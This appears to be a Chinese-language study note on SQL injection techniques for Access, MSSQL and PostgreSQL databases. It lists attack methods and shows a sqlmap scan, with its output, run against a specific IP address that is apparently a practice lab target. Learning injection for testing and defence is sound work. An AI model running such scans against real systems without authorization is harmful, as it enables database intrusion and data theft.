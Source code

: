 ![数据库注入.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624337095372-9725dc09-ce09-469e-bc9e-63dffac04d31.png#clientId=u4e845ec0-b853-4&from=paste&id=ubc27a8c9&originHeight=811&originWidth=991&originalType=binary&ratio=2&size=99469&status=done&style=none&taskId=u3592f895-5830-4884-b235-41ed22888d4)
<a name="nQz1y"></a>
### 一、简要学习各种数据库的注入特点
access,mysql, mssql , mongoDB,postgresql, sqlite,oracle,sybase等

<a name="zhgg5"></a>
#### 1、access注入
```bash
Access数据库 表名 列名	数据
access 数据库都是存放在网站目录下，后缀格式为 mdb，asp，asa,可以通过一些暴库手段、目录猜解等直接下载数据库，
```
**access三大攻击手法**
```bash
1.access注入攻击片段-联合查询法
2.access注入攻击片段-逐字猜解法
3.工具类的使用注入（推荐）
```
**Access注入攻击方式**<br />主要有：union 注入、http header 注入、偏移注入等

<a name="ke09C"></a>
#### 2、msSQL注入
参考文档：[https://www.cnblogs.com/xishaonian/p/6173644.html](https://www.cnblogs.com/xishaonian/p/6173644.html)<br />判断数据库类型<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624422113087-bacba60d-cb8b-4da6-b879-2b8c1c598de6.png#clientId=ud6a0c087-47ab-4&from=paste&id=u39fe89b8&originHeight=366&originWidth=925&originalType=binary&ratio=2&size=180981&status=done&style=none&taskId=u8100ab67-68f8-4586-9165-3adb93a7ea2)<br />判断数据库版本<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1624422229255-fcbf686e-d30d-4ad7-ae51-439463424581.png#clientId=ud6a0c087-47ab-4&from=paste&height=307&id=u1f7cbf37&originHeight=369&originWidth=898&originalType=binary&ratio=2&size=164621&status=done&style=none&taskId=u34ba057b-8262-4ad4-85b5-ce3dfd92558&width=746)
<a name="IKAm5"></a>
#### 3、postgresql注入
参考文档：[https://www.cnblogs.com/KevinGeorge/p/8446874.html](https://www.cnblogs.com/KevinGeorge/p/8446874.html)

数据库识别
```bash
┌──(root💀kali)-[~/hackbar]
└─# sqlmap -u http://219.153.49.228:44677/new_list.php?id=1
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:44:22 /2021-06-23/
[12:44:28] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[12:44:28] [INFO] testing 'PostgreSQL OR error-based - WHERE or HAVING clause'
[12:44:28] [INFO] testing 'PostgreSQL error-based - Parameter replace'
[12:44:28] [INFO] testing 'PostgreSQL error-based - Parameter replace (GENERATE_SERIES)'
[12:44:28] [INFO] testing 'Generic inline queries'
[12:44:28] [INFO] testing 'PostgreSQL inline queries'
[12:44:28] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[12:44:29] [INFO] testing 'PostgreSQL > 8.1 stacked queries'
[12:44:29] [INFO] testing 'PostgreSQL stacked queries (heavy query - comment)'
[12:44:29] [INFO] testing 'PostgreSQL stacked queries (heavy query)'

```
查看数据库权限
```bash
```